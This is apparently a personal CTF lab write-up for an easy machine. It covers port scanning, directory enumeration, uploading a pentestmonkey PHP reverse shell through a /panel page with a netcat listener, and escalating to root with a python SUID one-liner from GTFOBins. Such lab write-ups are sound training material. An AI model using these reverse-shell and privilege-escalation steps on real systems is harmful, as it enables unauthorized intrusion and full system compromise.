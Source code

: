 - - - 
created : 17-07-2025 

Tags : #easy  
- - - 
# Objective

Just root the machine .

# Recon
## Nmap

We can use [Nmap](../../3%20-%20Tags/Hacking%20Tools/Nmap.md) to scan the machine IP :

```
    80/tcp open http  
    22/tcp open ssh
```
# Enumeration 
## Gobuster

We can use [Gobuster](../../3%20-%20Tags/Hacking%20Tools/Gobuster.md) to enumerate directories :

```
    /panel
```

# Exploit
## Reverse shell

We can download the reverse shell from here https://github.com/pentestmonkey/php-reverse-shell

notice that we have to modify the [IP address](../../3%20-%20Tags/Hacking%20Concepts/IP%20address.md) in the code and target our [Vulnerable Machine](../../3%20-%20Tags/Hacking%20Concepts/Vulnerable%20Machine.md) :


<img src="../../Flameshots/c11a62a3346b0561b978ba29613dd5e2.png" alt="c11a62a3346b0561b978ba29613dd5e2.png" width="261" height="153" class="jop-noMdConv">

## Obtaining first access

visiting /panel we can upload the [Reverse Shell](../../3%20-%20Tags/Hacking%20Concepts/Reverse%20Shell.md), after a few tries modifing the .php extension to fit the php version supported (**php5**)

but first we have to setup a listener on the $port you have in the shell code , i didn't change the code and execute [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) like this

         `nc -lvnp 1234`

after that we can upload our Shell on /panel and wait for the connection, then `find / -type f -name user.txt 2> /dev/null` to find the user.txt file containing the first [Flag](../../3%20-%20Tags/Hacking%20Concepts/Flag.md) .

# Privilege Escalation

For [Privilege Escalation](../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md) we can find SUID permissions for the user `$ find / -user root -perm /4000`  and find `/usr/bin/python`

we can go to  https://gtfobins.github.io/  and get a [Python](../../3%20-%20Tags/Programming%20Languages/Python.md) command.

then on the Target Machine we execute  `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`  (the command for escalation)

confirm with `whoami` >> `root` and find the flag `find / -type f -name root.txt`  >>  `cat root.txt`

Rooted !!

